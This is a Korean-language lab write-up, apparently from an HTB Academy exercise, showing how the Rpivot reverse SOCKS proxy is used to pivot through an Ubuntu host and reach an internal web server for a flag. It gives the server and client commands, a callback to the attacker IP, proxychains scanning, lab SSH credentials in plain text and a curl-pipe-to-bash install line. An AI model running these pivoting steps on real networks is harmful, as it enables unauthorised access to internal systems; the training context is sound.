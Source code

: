 ```yaml
---
title: "Web Server Pivoting with Rpivot"
date: 2025-09-30
layout: single
author_profile: true
toc: true
toc_label: "Rpivot Pivoting"
toc_icon: "network-wired"
toc_sticky: true
tags: [networking, ssh, tunneling, pivoting, socks, reverse]
header:
  teaser: /assets/network-screenshots/rpivot/pivot-network.png
---
```


**Rpivot**은 Python으로 작성된 **역방향(Reverse) SOCKS 프록시 도구**로, 내부망 호스트가 외부 서버로 연결을 맺고  
외부 서버 측에서 **SOCKS 프록시 포트**를 열어주어 공격자가 프록시를 통해 내부망에 접근할 수 있게 한다.

내부망(`172.16.5.0/23`)에 존재하는 **웹 서버(`172.16.5.135`)**가 있고,  
공격자는 외부 네트워크(HTB Lab)에서 이 웹 서버를 직접 스캔하거나 브라우징하고자 한다.

---

# 네트워크 구조

공격 호스트(`10.10.15.5`) → **External Network(`10.129.110.0`)** → 
피벗 호스트(**Ubuntu**, `10.129.15.50`, `172.16.5.129`) → 
내부 웹 서버(`172.16.5.135`, Port 80)

![Rpivot Pivot Diagram](/assets/network-screenshots/rpivot/rpivot-network.png)

Rpivot을 이용해 공격자가 외부에서 내부 웹 서버로 접근하는 구조이다.

---

# 설치

먼저 `rpivot` 저장소를 클론한다.

```bash
$ git clone https://github.com/klsecservices/rpivot.git 

Cloning into 'rpivot'...
remote: Enumerating objects: 37, done.
remote: Total 37 (delta 0), reused 0 (delta 0), pack-reused 37 (from 1)
Receiving objects: 100% (37/37), 51.20 KiB | 3.66 MiB/s, done.
Resolving deltas: 100% (6/6), done.
```

`rpivot`은 **Python 2.7 환경에서 동작**하므로 우선 Python 2.7을 설치해야 한다.

```bash
$ sudo apt-get install python2.7
```

에러가 발생할 경우, 이때는 `pyenv`를 사용하여 별도로 2.7 버전을 설치할 수 있다.

```bash
$ curl https://pyenv.run | bash
$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
$ source ~/.bashrc
$ pyenv install 2.7
$ pyenv shell 2.7
```

--- 

# 실습

## server.py 활성화

공격자 로컬 머신에서 `rpivot` 디렉토리로 이동 후 **SOCKS 프록시 서버(server.py)**를 실행한다.

```bash
$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

- **--proxy-port 9050** : 로컬에서 프록시 트래픽을 받을 포트 (SOCKS5)
- **--server-port 9999** : 클라이언트(피벗 호스트)가 접속할 포트
- **--server-ip 0.0.0.0** : 모든 인터페이스에서 연결 허용

이후, `scp` 명령어를 이용하여 문제에서 제공한 SSH 서버(`ubuntu:HTB_@cademy_stdnt!`) 로 전송을 하였다.

```bash
$ scp -r rpivot ubuntu@10.129.179.177:/home/ubuntu
```

전송 완료 후, 제공된 계정으로 피벗 호스트에 SSH 접속하였다.

```bash
$ ssh ubuntu@10.129.179.177
```

## client.py 활성화

`scp`로 전송한 **rpivot 디렉토리**로 이동한 뒤, `client.py` 스크립트를 실행한다.

```bash
$ python2.7 client.py --server-ip 10.10.15.86 --server-port 9999
```

로컬 호스트에서 **SOCKS 프록시 서버(server.py)** 를 실행해 두었던 터미널을 확인하면, 피벗 호스트가 성공적으로 접속한 로그가 출력된다.

```bash
New connection from host 10.129.179.177, source port 36508
```

이후, 내부망 웹 서버 `172.16.5.135`의 80 번 포트를 `proxychains`를 적용하여 확인하였다.

```bash
$ proxychains nc -vz 172.16.5.135 80

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.5.135:80  ...  OK
172.16.5.135 [172.16.5.135] 80 (http) open : Operation now in progress
```

출력 결과에서 `80 (http) open` 메시지를 통해 해당 포트가 열려 있음을 확인할 수 있다.

## proxychains 웹 사이트 연결 && Flag 획득

로컬 호스트에서 `proxychains`를 적용하여 내부망 웹 사이트에 접속하였다.

```bash
$ proxychains firefox-esr 172.16.5.135:80
```

정상적으로 내부망 웹 페이지 접속에 성공했고, 웹 페이지에 적혀 있는 플래그를 확인하여 획득하였다.

![Rpivot Pivot Diagram](/assets/network-screenshots/rpivot/flag.png)

이로써 **Rpivot** 사용법에 대한 실습을 마무리하였다.